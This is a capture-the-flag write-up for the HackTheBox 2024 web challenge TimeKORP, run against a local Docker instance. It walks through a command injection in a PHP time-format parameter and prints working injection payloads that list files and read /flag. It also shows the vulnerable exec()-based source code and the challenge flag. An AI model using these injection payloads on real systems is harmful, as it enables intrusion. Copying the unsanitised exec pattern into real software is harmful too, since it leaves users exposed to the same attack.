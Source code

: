 ```yaml
---
name: TimeKORP (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for TimeKORP (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# TimeKORP

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=99 "HackTheBox Cyber Apocalypse '24: Time KORP (web)")

## Description

> TBD

## Solution

First things first; download the source and run the local docker instance for easy/fast debugging.

It's also a good idea to check the site functionality before reviewing the source code so that things fall into place more easily.

The site displays the time (`http://127.0.0.1:1337/?format=%H:%M:%S`) or date (`http://127.0.0.1:1337/?format=%Y-%m-%d`).

Opting for the lazy route, I check the burp scanner and find some interesting results. The first is XSS (reflected), presumably not much use as there was no admin bot to submit a URL to. The second is command injection 👀

Here's the URL-decoded [PoC](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23'%20%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23%7c%22%20%7cecho%20kefbjki4ag%20d6tyxfigki%7c%7ca%20%23) from burp:

{% code overflow="wrap" %}
```
/?format=%H:%M:%S|echo kefbjki4ag d6tyxfigki||a #' |echo kefbjki4ag d6tyxfigki||a #|" |echo kefbjki4ag d6tyxfigki||a #
```
{% endcode %}

The result indicates that the `echo kefbjki4ag d6tyxfigki` command did indeed execute.

{% code overflow="wrap" %}
```html
</span> kefbjki4ag d6tyxfigki<span class='text-muted'>.</span>
```
{% endcode %}

The payload syntax/length is a little confusing so I keep removing elements and re-testing to ensure the command still executes. The attack can be simplified to:

{% code overflow="wrap" %}
```
/?format=%H:%M:%S' |ls #
```
{% endcode %}

If we [URL-encode it](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S'+|ls+%23) it lists the `views` directory. If we look around for a while we might not see the flag. Let's just check the source code and see the Dockerfile has the following line.

{% code overflow="wrap" %}
```dockerfile
# Copy flag
COPY flag /flag
```
{% endcode %}

Therefore, we can print the flag with [this payload](http://127.0.0.1:1337/?format=%25H%3a%25M%3a%25S'+|cat+/flag+%23) to retrieve the flag.

{% code overflow="wrap" %}
```
/?format=%H:%M:%S' |cat /flag #
```
{% endcode %}

We've already solved the challenge but why not review the vulnerable source code. Notice `TimeController.php` processes our vulnerable GET parameter (`format`).

{% code overflow="wrap" %}
```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
{% endcode %}

It passes our user input (🚫) to the `TimeModel.php` constructor which then executes the command.

{% code overflow="wrap" %}
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```
{% endcode %}

So, assuming we submit `format=%H:%M:%S' |cat /flag #`, the `command` property of the object will be:

{% code overflow="wrap" %}
```bash
date '%H:%M:%S'' |cat /flag # 2>&1
```
{% endcode %}

Due to us closing off the string and inserting a pipe character, we were able to inject a malicious command! Crucially, we also needed to add a hash character afterwards, to prevent the output from being redirected.

Flag: `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`
